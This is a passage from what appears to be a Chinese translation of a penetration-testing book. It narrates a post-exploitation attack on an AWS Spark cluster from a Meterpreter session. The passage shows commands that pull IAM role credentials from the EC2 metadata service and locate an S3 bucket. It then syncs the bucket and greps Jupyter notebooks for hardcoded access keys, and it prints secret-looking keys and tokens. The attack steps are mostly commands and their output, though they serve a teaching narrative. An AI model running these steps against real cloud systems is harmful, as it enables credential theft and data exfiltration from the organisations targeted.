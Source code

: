 太棒了！我们成功地进入了其中一台工作节点。我们以一个普通的 Spark 用户 1 身份运行，这个用户足够信任，因此被包括在了*sudo*组中。屏幕这一边没有任何抱怨。让我们通过转储环境变量、挂载的文件夹、IAM 角色，或者任何其他可能有用的内容来探索这个新的环境：

```
meterpreter > **execute -i -H -f curl -a \**
**http://169.254.169.254/latest/meta-data/iam/security-credentials**

spark-standalone.ec2

meterpreter > **execute -i -H -f curl -a \**
**http://169.254.169.254/latest/meta-data/iam/security-credentials/spark-\**
**standalone.ec2**
"AccessKeyId" : "ASIA44ZRK6WSS6D36V45",
"SecretAccessKey" : "x2XNGm+p0lF8H/U1cKqNpQG0xtLEQTHf1M9KqtxZ",
"Token" : "IQoJb3JpZ2luX2VjEJL//////////wEaCWV1LXdlc3QtM...
```

我们了解到，Spark 工作节点可以模拟 spark-standalone.ec2 角色。像大多数 IAM 角色一样，很难知道它的完整权限，但我们可以通过使用`mount`命令获得一些线索：

```
meterpreter > **execute -i -H -f mount**
`--snip--`
s3fs on /home/spark/notebooks type fuse.s3fs (rw, nosuid, nodev...)
fusectl on /sys/fs/fuse/connections type fusectl (rw,relatime)
`--snip--`
```

GP 似乎使用 s3fs 在*/home/spark/notebooks*本地挂载了一个 S3 桶。我们通过查看进程列表（使用`ps`命令并加上`-edf`参数）挖掘出了桶的名称：

```
meterpreter > **execute -i -H -f ps -a "-edf"**
`--snip--`
spark  14067 1  1 2018  00:51:15  s3fs gretsch-notebooks /home/spark/notebooks -o iam_role
`--snip--`
```

成功了。映射到*notebooks*文件夹的桶名为 gretsch-notebooks。让我们加载角色凭证并探索这个桶：

```
root@Point1:~/#  **aws s3api list-objects-v2 \**
**--bucket-name gretsch-notebooks \**
**--profile spark**

"Key": "jessie/Untitled.ipynb",
"Key": "leslie/Conversion_Model/logistic_reg_point.ipynb",
"Key": "marc/Experiment – Good logistics loss cache.ipynb",
`--snip--`
```

确实很有趣。这个桶包含扩展名为*.ipynb*的文件，这是 Python Jupyter 笔记本的标志。Jupyter 笔记本就像是一个基于 Web 的 Python 命令行界面（CLI），旨在帮助数据科学家轻松设置工作环境，具备绘制图表和共享工作的能力。这些笔记本还可以轻松与 Spark 集群连接，实现在多个机器上执行工作负载。

数据科学家需要数据来进行计算。大多数人会争辩说，他们需要生产数据来做出准确的预测。这些数据通常存储在像数据库和 S3 桶这样的地方。因此，这些曾经贫瘠的 Jupyter 笔记本迅速演变成了一个充满硬编码凭证的温暖池塘，因为科学家们需要越来越多的数据集。

让我们同步整个桶并开始寻找一些 AWS 凭证。所有的 AWS 访问密钥 ID 都以神奇的词`AKIA`开头，所以我们用`grep`来查找这个词：

```
root@Point1:~/#  **aws s3 sync s3://gretsch-notebooks ./notebooks**

root@Point1:~notebooks/# **grep -R "AKIA" -4 ***
yuka/Conversion_model/...  awsKeyOpt =
Some(\"AKIAASJACEDYAZYWJJM6D5\"),\n",
yuka/Conversion_model/...  awsSecretOpt =
Some(\"3ceq43SGCmTYKkiZkGrF7dr0Lssxdakymtoi14OSQ\")\n",
`--snip--`
```
